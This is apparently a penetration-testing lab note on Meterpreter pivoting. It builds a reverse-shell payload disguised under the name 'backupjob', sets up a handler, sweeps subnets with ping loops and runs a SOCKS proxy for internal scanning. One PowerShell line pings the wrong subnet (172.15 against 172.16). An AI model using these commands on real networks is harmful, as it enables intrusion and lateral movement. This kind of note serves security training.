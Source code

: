 ## Meterpreter Tunneling & Port Forwarding 

We can still create a pivot with our Meterpreter session without relying on SSH port forwarding. First create the payload for the **Pivot Host**:
```console
zero@pio$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<PIVOT IP> -f elf -o backupjob LPORT=8080
```

Start the **multi/handler**:
```console
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

Send the payload to the **Pivot Host** and execute it. Now we must have our Meterpreter session. We can start with the `ping_sweep` module to discover hosts:
```console
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

We can also do the ping sweep directly in the shell, for bash:
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

For CMD:
```console
C:\> for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

And for PowerShell:
```console
PS C:\> 1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

> It's good to try the ping sweep twice, because of the time it takes for a host to build it's arp cache when communicating across networks
{: .prompt-danger}

If a firewall is blocking our pings we can use Nmap for TCP scan. Meterpreter comes with the `socks_proxy` module to help us. We will configure the SOCKS proxy for **SOCKS version 4a**:
```console
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```
